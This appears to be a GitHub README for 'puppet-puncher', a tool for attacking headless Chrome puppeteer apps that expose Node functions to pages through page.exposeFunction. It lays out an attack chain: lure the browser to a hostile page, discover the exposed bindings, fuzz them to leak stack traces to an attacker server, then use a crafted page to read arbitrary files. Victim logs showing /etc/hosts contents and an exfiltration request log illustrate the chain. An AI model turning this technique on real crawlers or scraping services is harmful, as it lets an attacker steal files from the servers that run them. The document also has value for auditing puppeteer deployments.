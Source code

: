 # puppet-puncher

Attack headless chrome browsers which use `page.exposeFunction` in the `puppeteer` library.

## How to use

* Host your puppet-puncher webpage and an endpoint to exfiltrate data to
* Entice a headless chrome to visit your page
* Stack trace exfiltrated to your server
* Use stack trace to come up with targeted payload and host it
* Entice the headless chrome to visit your new page
* Profit

## Example vulnerable puppeteer

The code in `readfile.js` is an example vulnerable puppeteer app which exposes `fs.readFile` to any page it browses to. When it browses to our `puppet-puncher.html` page, the function is discovered.

Logs of the puppeteer (victim) process (`PAGE SAYS` denotes log messages from `puppet-puncher.html`):

```
$ node /app/puppet-puncher/readfile.js
PAGE SAYS Starting puppet-puncher
PAGE SAYS 'window.webkitStorageInfo' is deprecated. Please use 'navigator.webkitTemporaryStorage' or 'navigator.webkitPersistentStorage' instead.
PAGE SAYS Found punchable readfile
PAGE SAYS PUNCHED readfile! STACK: TypeError: Cannot convert object to primitive value
    at isUint32 (internal/validators.js:14:27)
    at Object.readFile (fs.js:287:22)
    at Promise (/app/puppet-puncher/readfile.js:15:10)
    at new Promise (<anonymous>)
    at page.exposeFunction (/app/puppet-puncher/readfile.js:14:12)
    at Page._onBindingCalled (/app/puppet-puncher/node_modules/puppeteer/lib/Page.js:542:56)
    at CDPSession.Page.client.on.event (/app/puppet-puncher/node_modules/puppeteer/lib/Page.js:136:54)
    at CDPSession.emit (events.js:197:13)
    at CDPSession._onMessage (/app/puppet-puncher/node_modules/puppeteer/lib/Connection.js:200:12)
    at Connection._onMessage (/app/puppet-puncher/node_modules/puppeteer/lib/Connection.js:112:17)
PAGE SAYS 127.0.0.1     localhost
...
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The full stack trace is exfiltrated to our server via an HTTP GET request (truncated below):

```
$ http-server
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:8000
Hit CTRL-C to stop the server
[Sun Apr 99 3019 29:29:49 GMT+0100 (GMT+01:00)] "GET /?x=WyJyZWFkZmlsZSIsIlR5cGVFcnJvcjogQ2Fubm90IGNvbnZlcnQgb2JqZWN0IHRvIHByaW1pdGl2ZSB2YWx1ZVxuICAgIGF...
```

The error in this case occurs when `fs.readFile` checks if the file path is a file descriptor.
The `x|0` part of the internal function `isUint32` works as follows:

```
> 1|0
1
> "hello"|0
0
> null|0
0
> ({})|0
0
> ({toString: () => console.log("HI")})|0
HI
0
> ({toString: null})|0
Uncaught TypeError: Cannot convert object to primitive value
```

We don't really care about the error though. From reading the stack trace, we know that the page contains a function exposed as `readfile` which passes the first argument to `fs.readFile` in the puppeteer process. We can then craft a page which abuses this knowledge to exfiltrate arbitrary files.


## Finding functions to attack

The `page.exposeFunction` puppeteer function creates a function with the following code. I'm not yet sure what wizardry sets `bindingName`, but we can search `window` for a function `f` where `f.toString()` looks like:

```javascript
(...args) => {
        const me = window[bindingName];
        let callbacks = me['callbacks'];
        if (!callbacks) {
          callbacks = new Map();
          me['callbacks'] = callbacks;
        }
        const seq = (me['lastSeq'] || 0) + 1;
        me['lastSeq'] = seq;
        const promise = new Promise((resolve, reject) => callbacks.set(seq, {resolve, reject}));
        binding(JSON.stringify({name: bindingName, seq, args}));
        return promise;
      }
```

## Getting information about the puppeteer process

Since you don't know what the function does, your best bet for getting a clue as to its purpose is to fuzz it with some junk data that will make it throw an exception with a juicy stack trace! An important limitation is that the arguments your page sends are passed to and from puppeteer via JSON roundtrip.

Exfiltration method is entirely up to you.


## What's with the `<q>`s?

This is to delay the `domContentLoaded` event. In this example, the puppeteer is `await`ing it. If we make it pause here, we have longer to play around before the page is killed. This only really important in the case where the function doesn't throw an error, or takes a long time to execute.

It turns out that, at least for me, `<q>` takes a longer time to load than most other elements. Odd!

It's entirely optional. You can also maybe delay the HTTP response stream.
